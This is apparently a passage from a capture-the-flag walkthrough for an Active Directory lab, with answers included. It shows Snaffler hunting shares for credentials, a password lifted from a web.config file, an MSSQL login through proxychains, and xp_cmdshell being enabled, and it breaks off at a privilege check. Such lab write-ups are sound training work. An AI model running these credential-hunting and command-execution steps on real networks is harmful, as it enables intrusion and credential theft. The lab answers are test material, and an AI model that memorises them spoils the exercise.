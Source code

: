 ### **🎯 Task**: "Locate a configuration file containing an MSSQL connection string. What is the password for the user listed in this file?"

### **📋 Solution Steps:**

#### **Step 1: Download Snaffler**
```bash
# Download file hunting tool:
wget -q https://github.com/SnaffCon/Snaffler/releases/download/1.0.16/Snaffler.exe
scp Snaffler.exe htb-student@JUMP_BOX_IP:/home/htb-student/Desktop
```

#### **Step 2: Run as BR086 User**
```powershell
# In RDP session, escalate context:
runas /netonly /user:INLANEFREIGHT\BR086 powershell
# Password: Welcome1

# Hunt for sensitive files:
cd C:\users\AB920\Desktop
.\Snaffler.exe -d INLANEFREIGHT.LOCAL -s -v data
```

#### **Step 3: Extract SQL Credentials**
```
# Snaffler output reveals:
# File: \\DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Private\Development\web.config
# Contains: connectionString="...;User ID=netdb;Password=D@ta_bAse_adm1n!"
```

**🎯 Answer**: `D@ta_bAse_adm1n!`

---

## 🗄️ **Question 7: SQL Server Exploitation**

### **🎯 Task**: "Submit the contents of the flag.txt file on the Administrator Desktop on the SQL01 host."

### **📋 Solution Steps:**

#### **Step 1: SQL Server Access**
```bash
# Connect via proxychains (SEAMLESS!):
proxychains mssqlclient.py netdb:'D@ta_bAse_adm1n!'@172.16.7.60
```

#### **Step 2: Enable Command Execution**
```sql
-- Enable xp_cmdshell:
enable_xp_cmdshell

-- Check privileges:
xp_cmdshell whoami /priv
-- Result: SeImpersonatePrivilege Enabled
```
